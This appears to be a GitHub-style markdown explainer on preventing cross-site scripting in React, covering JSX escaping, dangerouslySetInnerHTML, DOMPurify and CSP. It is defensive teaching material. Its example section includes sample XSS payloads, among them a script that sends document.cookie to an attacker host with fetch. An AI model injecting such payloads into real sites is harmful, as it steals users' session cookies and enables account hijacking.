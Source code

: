 
---

## 🔐 Preventing XSS (Cross-Site Scripting) Attacks in React

**Cross-Site Scripting (XSS)** is a security vulnerability where attackers inject malicious scripts into webpages viewed by other users.

React is inherently **safe from XSS** because it escapes values embedded in JSX. But it's still possible to introduce XSS vulnerabilities through improper handling of user input or third-party data.

---

### ✅ How React Prevents XSS by Default

When you insert values using JSX, React automatically escapes them:

```jsx
const userInput = "<img src=x onerror=alert('XSS') />";
return <div>{userInput}</div>; // React escapes the tag, renders as text
```

This will be rendered safely as:

```html
<div>&lt;img src=x onerror=alert('XSS') /&gt;</div>
```

---

### ❗️ Using `dangerouslySetInnerHTML`

Avoid using `dangerouslySetInnerHTML` unless absolutely necessary. It bypasses React’s escaping and can expose your app to XSS.

```jsx
<div dangerouslySetInnerHTML={{ __html: userInput }} />
```

✅ **Only use it with trusted content.** Sanitize any dynamic HTML before rendering.

Use libraries like:

- [`dompurify`](https://github.com/cure53/DOMPurify)
  ```js
  import DOMPurify from 'dompurify';
  <div dangerouslySetInnerHTML={{ __html: DOMPurify.sanitize(userInput) }} />
  ```

---

### 🧼 General Tips to Prevent XSS in React

1. **Never trust user input.**
2. **Avoid `dangerouslySetInnerHTML` when possible.**
3. **Sanitize data on both server and client side.**
4. **Use CSP (Content Security Policy)** headers in production.
5. **Keep dependencies up to date.**
6. **Escape dynamic attributes (e.g., in `style`, `href`, etc.).**

---

### 🛡️ Example of Safe Rendering

```jsx
function SafeMessage({ message }) {
  return <p>{message}</p>; // React escapes this safely
}
```


### 🧨 What are **XSS (Cross-Site Scripting) Attacks**?

**XSS (Cross-Site Scripting)** is a type of **security vulnerability** in web applications that allows attackers to **inject malicious JavaScript** into webpages viewed by **other users**.

---

### ⚠️ In simple terms:

> An attacker tricks your website into running **their JavaScript code**, which can steal data, hijack sessions, or deface pages — all in the context of a trusted site.

---

### 🎭 Real-Life Analogy:

Imagine you leave a public comment on a blog post — but instead of a normal comment, someone posts:
```html
<script>stealCookies()</script>
```

If the site **doesn’t sanitize input properly**, this script will run in the browser of **anyone who views that comment**.

---

### 🧪 Example of XSS

#### ✅ User posts:
```html
Hello world!
```

#### ❌ Attacker posts:
```html
<script>
  fetch('http://attacker.com/steal?cookie=' + document.cookie)
</script>
```

Now when another user views the page, that malicious script:
- Runs in **their browser**
- Sends their **cookies/session tokens** to the attacker

---

### 🔄 Types of XSS:

| Type         | Description |
|--------------|-------------|
| **Stored XSS** | Malicious script is saved on the server (e.g., in a comment or profile field) and served to users |
| **Reflected XSS** | Malicious script is part of a URL/query string and immediately reflected in the response |
| **DOM-based XSS** | Script is injected and executed purely on the client side using JavaScript (e.g., through `innerHTML`, `eval`, etc.) |

---

### 🛡️ How to Prevent XSS:

- ✅ **Escape HTML output** (e.g., don’t render raw input directly)
- ✅ **Sanitize user input** (use libraries like DOMPurify)
- ✅ **Use CSP (Content Security Policy)** headers
- ✅ Avoid `innerHTML`, `eval`, or `document.write`
- ✅ Use modern frameworks (React, Angular) that **auto-escape output**

---

### ⚠️ Why it's dangerous:
- Steal cookies/session tokens
- Impersonate users
- Redirect users to phishing sites
- Deface websites
- Perform actions on behalf of the user

---

Let me know if you want to see how to prevent XSS in a React app or Node.js backend!
---

### 📚 Resources

- [React Docs: dangerouslySetInnerHTML](https://react.dev/reference/react-dom/components/common#dangerouslysetinnerhtml)
- [DOMPurify GitHub](https://github.com/cure53/DOMPurify)
- [OWASP XSS Prevention Cheat Sheet](https://owasp.org/www-community/xss-prevention)

---
